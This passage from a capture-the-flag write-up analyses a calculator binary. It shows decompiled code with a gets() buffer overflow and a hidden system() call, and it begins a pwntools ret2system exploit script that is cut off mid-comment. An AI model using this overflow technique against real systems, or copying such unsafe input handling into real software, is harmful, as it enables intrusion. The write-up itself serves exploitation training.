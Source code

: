 ```c
      lore();
      exit(0);
    default:
      puts("Invalid.");
  }
  return;
}

double pow(double x,double y) {
  float10 in_ST0;
  float10 extraout_ST0;
  if (x == 2261635.739677302) {
    system("echo $((0xdeadbeef**0x41414141))"); // 🤨
    in_ST0 = extraout_ST0;
  }
  return (double)in_ST0;
}

void lore(void) {
  char local_16 [14];
  puts("Any last words?");
  printf(">>> ");
  gets(local_16); // 👀
  return;
}
```
Figure 17: *the decompiled source code (heavily truncated and simplified).*

### Analysis

Starting with `main`, after poking around a bit it was clear that the only interesting function
was `menu`. The program repeatedly lets the user perform calculations until they want to exit, in
which case it calls `lore` before finally exiting (strange, remember that).

Each operation has its own function, so I searched through each of them for anything interesting,
and the only interesting one was `pow`. If you enter a certain number it runs a command using
`system`. From experience, I guessed that this was probably just done to make sure that `system`
ended up in the binary's [global offset table](https://ctf101.org/binary-exploitation/what-is-the-got/)
(not important to know about for this challenge, but very useful for more advanced rop challenges).

Next I took a look at `lore`, and saw that it was a pretty obvious buffer overflow opportunity.
Altogether, that's all we need to know to identify the challenge as a `ret2system` challenge and
get pwning!

### The exploit

```python
from pwn import *

# Connect to the challenge
p = remote('chal.stateoforigin.online', 3002)

# Read the binary so that we can easily get the address to system
# in the PLT
elf = ELF('files/calculator')

# Get the address we want to jump to
user_input = elf.symbols["input"]
system_addr = elf.symbols["plt.system"]

"""Sending input to menu"""

# Tell the program to exit by entering '7'. It only cares about the
```
